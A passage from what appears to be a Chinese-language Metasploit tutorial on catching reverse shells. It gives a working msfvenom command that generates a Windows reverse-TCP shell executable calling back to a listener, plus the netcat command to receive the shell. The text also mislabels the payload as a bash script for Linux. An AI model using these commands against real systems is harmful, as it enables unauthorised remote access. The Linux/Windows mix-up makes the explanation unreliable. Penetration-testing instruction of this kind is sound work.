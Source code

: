 分阶段的 payload，我们必须使用 exploit/multi/handler 这个模块使用，但是当我们想回弹一个基础的 shell 的时候，其实可以使用 nc 来监听端口直接回连到 nc 上

当有时获取到了 root 权限，想反弹 linux shell 的时候，这时 meterprter 的需求就不是那么高了，我们就可以使用 shell_reverse_tcp(或者是 bind) 来生成一个 stageless 的 bash 脚本，直接使用 nc 来接受 shell

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.141.143 LPORT=4444 -f exe > ./vu.exe
```

nc 监听
```bash
nc -tvlp 4444
```

接收回弹

![](../../../assets/img/Security/安全工具/Metasploit/5.png)
